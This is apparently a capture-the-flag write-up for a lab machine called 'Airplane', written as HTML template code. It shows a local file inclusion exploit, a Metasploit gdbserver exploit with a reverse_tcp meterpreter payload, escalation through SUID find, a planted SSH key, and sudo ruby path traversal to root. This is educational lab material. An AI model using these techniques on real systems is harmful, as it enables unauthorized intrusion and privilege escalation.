 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin with an <strong>Nmap</strong> scan to identify open ports.")}}

{{console("nmap -T5 -p- 10.10.140.195", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 15:19 CET
Nmap scan report for 10.10.140.195
Host is up (0.079s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
6048/tcp open  x11
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 62.74 seconds")}}

{{text("We find 3 open ports:")}}

{{list(['22 (SSH)', '6048 (x11)', '8000 (HTTP)'])}}

{{text("When visiting <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://10.10.140.195:8000</code> we get redirected to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://airplane.thm:8000/?page=index.html</code> and get a page about airplanes.")}}

{{text("Remember to add <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>MACHINE_IP airplane.thm</code> to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> otherwise it won't load.")}}

{{image("../../static/writeups/airplane/images/000001.jpg")}}

{{text("What instantly caught my interest was the URL parameter. First thing that came to my mind was <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>LFI</code>.")}}

{{text("I began checking for directory traversal and I was successful trying to get to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/passwd</code>.")}}

{{image("../../static/writeups/airplane/images/000002.jpg")}}

{{text("We now have the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/passwd</code> file, and while reading it we find two users - <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>carlos</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hudson</code>.")}}

{{text("Unfortunately I was unable to get a flag from these users directories using this method.")}}

{{text("While looking through the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/proc/self</code> directory which contains information about the currently running process, I read the  <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cmdline</code> file which contained the command used to run the website.")}}

{{console("cat cmdline", "/usr/bin/python3app.py")}}

{{text("We see that it was run using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>python</code> and the file name is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>app.py</code>. We should look for that file.")}}

{{text("We find it in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/proc/self/cwd/app.py</code> and are able to read the source code.")}}

{{console("", "from flask import Flask, send_file, redirect, render_template, request
import os.path

app = Flask(__name__)


@app.route('/')
def index():
    if 'page' in request.args:
        page = 'static/' + request.args.get('page')

        if os.path.isfile(page):
            resp = send_file(page)
            resp.direct_passthrough = False

            if os.path.getsize(page) == 0:
                resp.headers['Content-Length']=str(len(resp.get_data()))

            return resp
        
        else:
            return 'Page not found'

    else:
        return redirect('http://airplane.thm:8000/?page=index.html', code=302)    


@app.route('/airplane')
def airplane():
    return render_template('airplane.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)")}}

{{text("Unfortunately we can't find any more vulnerabilities except for already exploited LFI.")}}

{{text("I tried to find out what other service was running on the other port.")}}

{{header("Shell as hudson", "shell-as-hudson")}}

{{text("For that we need that service <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>PID</code> so we can pass it to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/proc/[PID]/cmdline</code> directory.")}}

{{text("I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Intruder</code> in Burp Suite and searched for port <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>6048</code>.")}}

{{image("../../static/writeups/airplane/images/000003.jpg")}}

{{text("The correct PID was <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>525</code>.")}}

{{text("I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>metasploit</code> in order to exploit the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>gdbserver</code> running on that port.")}}

{{image("../../static/writeups/airplane/images/000004.jpg")}}

{{text("After setting correct options, I ran the exploit.")}}

{{text("You have to run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>set target 1</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>set payload linux/x64/meterpreter/reverse_tcp</code> because we are attacking a 64-bit machine.")}}

{{image("../../static/writeups/airplane/images/000005.jpg")}}

{{text("After that use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>shell</code> to gain a shell.")}}

{{text("It worked and now we are user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hudson</code>.")}}

{{header("Shell as carlos", "shell-as-carlos")}}

{{text("We look for binaries with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID</code> bit set.")}}

{{text("We find <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>find</code> binary that is owned by user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>carlos</code>.")}}

{{console("find / -perm -u=s -type f 2>/dev/null", "/usr/bin/find
...")}}

{{text("We search for it on <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>GTFOBins</code>.")}}

{{link("https://gtfobins.github.io/gtfobins/find/", "https://gtfobins.github.io/assets/logo.png", "find | GTFOBins")}}

{{text("According to this if we run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>find . -exec /bin/sh -p \; -quit</code>, we should become the user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>carlos</code>.")}}

{{image("../../static/writeups/airplane/images/000006.jpg")}}

{{text("We now can add our own key to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/home/carlos/.ssh/authorized_keys</code> to get a better shell.")}}

{{text("We generate a key pair with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ssh-keygen</code> and add our public key.")}}

{{image("../../static/writeups/airplane/images/000008.jpg")}}

{{text("We are now able to log in via SSH with our private key as user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>carlos</code>.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("We run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudo -l</code> to check for sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb")}}

{{text("We can run any <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.rb</code> file in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/root</code> directory using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/bin/ruby</code>.")}}

{{text("We are easily able to exploit that using path travesal.")}}

{{text("We create a file that will add the<code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID</code> bit to bash when run and execute our privilaged command.")}}

{{image("../../static/writeups/airplane/images/000009.jpg")}}

{{text("Now we use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>bash -p</code> to become root and read the final flag.")}}

{{image("../../static/writeups/airplane/images/000010.jpg")}}

{{script()}}